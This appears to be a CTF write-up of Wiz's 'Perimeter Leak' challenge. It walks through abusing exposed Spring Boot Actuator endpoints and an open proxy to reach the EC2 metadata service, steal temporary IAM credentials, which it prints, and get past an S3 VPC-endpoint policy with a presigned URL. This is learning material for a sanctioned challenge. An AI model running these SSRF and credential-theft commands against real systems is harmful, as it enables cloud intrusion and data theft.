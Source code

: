 ```yaml
---
title: "Perimeter Leak"
date: 2025-07-30
draft: false
description: "Solutions for the first challenge from WIZ utltimate cloud champion"
tags: ["ctf", "cloud", "aws"]
---
```


Our first challenge starts with a brief introduction..

```bash
You've discovered a Spring Boot Actuator application running on AWS: curl https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com
{"status":"UP"}
user@monthly-challenge:~$ 
```

Ok! so we are dealing with a Spring Boot Actuator application, but wait, what is even that? The official docs from baeldung states that Actuator brings production-ready features to our application. Monitoring apps, gathering metrics, etc...
It comes with Predefined Endpoints, you can find more inforamtion ![here](https://www.baeldung.com/spring-boot-actuators).

The most interesting Endpoint is `/actuator/env`, CURLing it returnes some valuable data! such as the S3 bucket name! and some other info about the ec2 instance ;)

```bash
user@monthly-challenge:~$ curl -s https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/actuator/env | jq | grep -i bucket -A2 -B2
          "origin": "System Environment Property \"SHELL\""
        },
        "BUCKET": {
          "value": "challenge01-470XXXX",
          "origin": "System Environment Property \"BUCKET\""
        },
        "LOGNAME": {
```

Another interesting Endpoint is the `/actuator/mappings`, which provides information about the application's request mappings and lists all the Endpoints within the applicatiopn.

What attracts me the most is this endpoint, which is a proxy that takes `url` as param!

```json
{
              "predicate": "{ [/proxy], params [url]}",
              "handler": "challenge.Application#proxy(String)",
              "details": {
                "handlerMethod": {
                  "className": "challenge.Application",
                  "name": "proxy",
                  "descriptor": "(Ljava/lang/String;)Ljava/lang/String;"
                },
                "requestMappingConditions": {
                  "consumes": [],
                  "headers": [],
                  "methods": [],
                  "params": [
                    {
                      "name": "url",
                      "negated": false
                    }
                  ],
                  "patterns": [
                    "/proxy"
                  ],
                  "produces": []
                }
              }
            },
```

The first thing that came straight to my mind after knowing that the application is running in EC2 instance, is trying to send a GET request to the 169-254 metadata server! and yup, it did work! but we are unauthorized!

No problem, lets kindly request a temporary token from the metadata server!

```bash
TOKEN=$(curl -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" -XPUT https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/api/token)

user@monthly-challenge:~$ curl -H "X-aws-ec2-metadata-token: ${TOKEN}" https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/   
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hibernation/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
system
```

Okay, thass cool! lets go ahead and grab the iam security creds and see what we can do next!

```json
user@monthly-challenge:~$ curl -H "X-aws-ec2-metadata-token: $TOKEN" https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.meta-data/iam/security-credentials/challenge01-5592368

{
  "Code" : "Success",
  "LastUpdated" : "2025-09-06T12:38:55Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIARK7LBOHXNJ5AIPXX",
  "SecretAccessKey" : "EODTCiWkez2OTMwg3U0q+s1xc4HgB9YYpIS3XiqJ",
  "Token" : "IQ....",
  "Expiration" : "2025-09-06T18:59:09Z"
```

After configuring the aws creds, we can now see whats inside the bucket!

```bash
user@monthly-challenge:~$ aws s3 ls s3://challenge01-470fXXX --recursive
2025-06-18 17:15:24         29 hello.txt
2025-06-16 22:01:49         51 private/flag.txt
```

For a moment, I though I got the flag! but it didn't end here...
I tried to copy the content of flag.txt object locally but I got a frobbiden err msg!

```bash
user@monthly-challenge:~$ aws s3 cp s3://challenge01-XXX/private/flag.txt --profile p1 flag
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

Why? this is because of the S3 policy, which says that you cannot get any object under /private/* out of the S3 bucket, unless the request is coming from the vpc id `vpce-0dfd8b6aa1642a0570`!

```bash
user@monthly-challenge:~$ aws s3api get-bucket-policy --profile p1 --bucket challenge01-470fXXX | jq
{
  "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Deny\",\"Principal\":\"*\",\"Action\":\"s3:GetObject\",\"Resource\":\"arn:aws:s3:::challenge01-470fXXX/private/*\",\"Condition\":{\"StringNotEquals\":{\"aws:SourceVpce\":\"vpce-0dfd8b6aa1642a057\"}}}]}"
}
```

Remember the `/proxy` endpoint we discovered a while ago under `/actuator/mappings`? This will allow us to send a request from the application which is running in the EC2 instance that is provisionned on the same VPC.

Its actually very simple, we just have to presign an url for the S3 bucket, and send the request from the application using the /proxy endpoint! and just like that we get the flag of the first challenge :D

```bash
user@monthly-challenge:~$ URL=$(aws s3 presign s3://challenge01-470fXXXX/private/flag.txt --profile p1 | jq -sRr @uri)
user@monthly-challenge:~$ echo $URL
https%3A%2F%2Fchallenge01-470XXX.s3.amazonaws.com%2Fprivate%2Fflag.txt%3FX-Amz-Algorithm%3DAWS4..
user@monthly-challenge:~$ curl https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=${URL} 
The flag is: WIZ_CTF_***********
```